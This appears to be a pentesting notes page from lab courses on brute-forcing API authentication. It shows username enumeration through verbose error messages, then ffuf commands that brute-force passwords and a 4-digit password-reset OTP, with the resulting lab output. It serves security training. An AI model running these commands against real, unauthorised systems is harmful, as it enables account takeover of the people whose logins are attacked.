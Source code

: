 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Brute Force

> [API2:2023 Broken Authentication](https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/)

## Passwords

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

We might be able to enumerate valid usernames via verbose error messages (Figure 1).

<figure><img src="../../../../.gitbook/assets/bfa_1.png" alt=""><figcaption><p>Figure 1: Enumerating a valid username based on verbose error messages.</p></figcaption></figure>

When a valid username is obtained, we can try brute-forcing its password using Burp's Intruder (Figure 2) or CLI tools, such as [`ffuf`](../../../../tools/web/dirbusting/fuff.md).

<figure><img src="../../../../.gitbook/assets/bfa_2.png" alt=""><figcaption><p>Figure 2: Brute-forcing <code>admin</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing admin's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/rockyou:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"admin","password":"PASS"}' -c -fc 401
```
{% endcode %}

Based on the above verbose error message (`Invalid password`) we can try to enumerate more valid users (Figure 3), and if other users are found, we can repeat the above process to enumerate their passwords (Figure 4).

<figure><img src="../../../../.gitbook/assets/bfa_3.png" alt=""><figcaption><p>Figure 3: Fuzzing for other valid users based on the verbose error message.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing for other valid users based on the verbose error message.
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:USER -X POST -H 'Content-Type: application/json' -d '{
"email":"USER","password":"admin"}' -c -mr "Invalid password!"

________________________________________________
jeremy                  [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 0ms]
admin                   [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 265ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/bfa_4.png" alt=""><figcaption><p>Figure 4: Fuzzing <code>jeremy</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing jeremy's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"jeremy","password":"PASS"}' -c -mc 200
```
{% endcode %}

## OTPs

> _The below example is based on HTB's_ [_API Attacks_](https://academy.hackthebox.com/course/preview/api-attacks) _module._

If the password policy is robust enough, we can check if the password reset functionality is vulnerable to BFAs due to weak One Time Passcodes (OTPs) (Figure 5).

<figure><img src="../../../../.gitbook/assets/api_bfa_token_1.png" alt=""><figcaption><p>Figure 5: Getting the required information for brute-forcing the OTP</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing the OTP
$ ffuf -u http://94.237.59.199:45348/api/v1/authentication/customers/passwords/resets -X POST -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -d '{"Email": "MasonJenkins@ymail.com","OTP": "FUZZ","NewPassword": "123456"}' -ac -c -fr ":false" -t 100

0426                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 40ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/api_bfa_token_2.png" alt=""><figcaption><p>Figure 6: Successfully logging in.</p></figcaption></figure>

